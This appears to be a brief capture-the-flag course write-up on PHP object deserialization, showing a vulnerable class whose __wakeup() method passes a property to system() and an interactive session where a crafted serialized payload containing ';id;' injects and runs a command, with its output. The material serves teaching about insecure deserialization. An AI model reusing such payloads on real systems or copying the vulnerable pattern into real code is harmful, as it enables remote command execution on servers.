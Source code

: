 ```yaml
---
title: Simple Web 0x16.5(php unserialize)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x16.5(php unserialize)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`

## Background
php magic method 
![](https://i.imgur.com/xQrh7vo.png)

## Source code
```php=
class cat
{
    public $sound = 'ls';
    function __wakeup()
    {
        system("echo".$this->sound);
    }
}
$cat = unserialize($_GET['cat']);
```

## Description & Analyze
```bash!
$ php -a
php > class cat
php >  public {
php {     public $sound = 'ls';
php {     function __wakeup()
php {     {
php {         system("echo ".$this->sound);
php {     }
php { }
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:"meow";}';
php > $cat = unserialize($_GET['cat']);
meow
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:";id;";}';
php > $cat = unserialize($_GET['cat']);

uid=1000(sbk6401) gid=1000(sbk6401) groups=1000(sbk6401),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
```
This is a typical command injection. The magic method `__wakeup()` will be called when unserialized something.

## Reference

